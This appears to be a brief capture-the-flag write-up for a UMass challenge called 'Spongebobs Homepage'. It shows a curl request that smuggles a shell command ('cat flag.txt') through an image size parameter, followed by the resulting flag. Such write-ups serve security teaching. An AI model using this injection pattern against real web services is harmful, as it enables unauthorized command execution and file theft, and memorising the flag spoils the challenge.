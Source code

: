 # Spongebobs Homepage

---
There is a command injection in the size parameter for images loading.

```
curl "spongebobs_homepage.ctf.umasscybersec.org/assets/image?name=spongebob&size=200x200;cat%20flag.txt;echo%20"
UMASS{B4S1C_CMD_INJ3CTI0N}! png:-
```

FLAG: UMASS{B4S1C_CMD_INJ3CTI0N}
